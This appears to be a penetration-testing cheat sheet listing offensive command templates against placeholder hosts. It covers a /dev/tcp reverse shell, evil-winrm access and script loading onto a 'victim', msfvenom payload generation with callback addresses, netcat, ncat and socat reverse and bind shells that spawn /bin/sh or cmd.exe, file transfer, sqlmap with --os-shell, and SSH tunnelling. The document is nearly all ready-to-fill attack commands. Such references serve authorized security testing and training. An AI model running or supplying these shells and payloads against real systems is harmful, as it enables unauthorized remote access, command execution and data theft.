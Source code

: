 # [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <usenamer> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
  * -s allows yoiu to load powershell scripts from Kali to the victim

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports

# [socat](https://127.0.0.1):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink -l <username> -pw <password> X.X.X.X -R YYY:A.A.A.A:BBB`
#### `ssh -D YYY <username>@X.X.X.X`
  * -R binds a remote server's (X.X.X.X) port (YYY) to the local server's (A.A.A.A) port (BBB) using the remote server's credentials
  * -D specifies a local dynamic application-level port forwarder for tunneling
